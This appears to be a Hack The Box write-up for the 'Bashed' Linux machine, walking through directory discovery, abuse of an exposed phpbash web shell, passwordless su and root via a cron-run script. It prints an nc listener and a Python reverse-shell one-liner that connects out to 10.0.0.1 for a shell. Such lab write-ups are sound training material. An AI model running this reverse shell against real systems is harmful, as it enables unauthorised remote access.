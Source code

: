 ```yaml
---

title: " Write Up for BASHED "

categories:
  - Hack The Box
tags:
  - Linux
  - HTB

---
```


# BASHED

This is an easy box based on linux 

---


## Reco

Time to scan, for this one i used ZenMap : 
![alt text](/assets/images/bashed/zenmap.png?raw=true "zenmap")

We find the port 80, let's check it out.

The site looks like a presentation for a Reverse Shell in PHP, their is also a link for it on GitHub.

The tool is name "phpbash.php", it might be present on the website, who knows ?

Let's try the same URL as shown in GitHub: http://10.10.10.68/upload/phpbash.php 

ahh nothing

Time To dirb !
![alt text](/assets/images/bashed/dirb.png?raw=true "dirbuster")

Ok we found it ! http://10.10.10.68/dev/phpbash.php

So, i guess we have a reverse shell already?

Lets upload LineNum.sh to get some informations.
![alt text](/assets/images/bashed/getLinenum.png?raw=true "phpbash")

We have some users
![alt text](/assets/images/bashed/user.png?raw=true "userlist")

 and some interresting things 
![alt text](/assets/images/bashed/nooPass.png?raw=true "nopasswd")

## Exploit

Ok so this mean we can su to scriptmanager without a password, thats great ! 

![alt text](/assets/images/bashed/userflag.png?raw=true "flag")

And we own the user :)

phpbash does not have a lot of permission so it's time to get a proper REshell.

For this one i'm using nc for the server : 

```bash
nc -nvlp 1234 
```

and python for the client : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](/assets/images/bashed/reshellbien.png?raw=true "Autoruns")

No its time to privesc, lets check out some linux stuff.

We can see a directory name scripts at the root that contain a basic python script wich is executed 
regularly and got root privileges.

![alt text](/assets/images/bashed/scripts.png?raw=true "script")

let's upload our reverse shell here..

I'm using a python script for this one.

![alt text](/assets/images/bashed/rooot.png?raw=true "root")

Aaaaand we are Root !




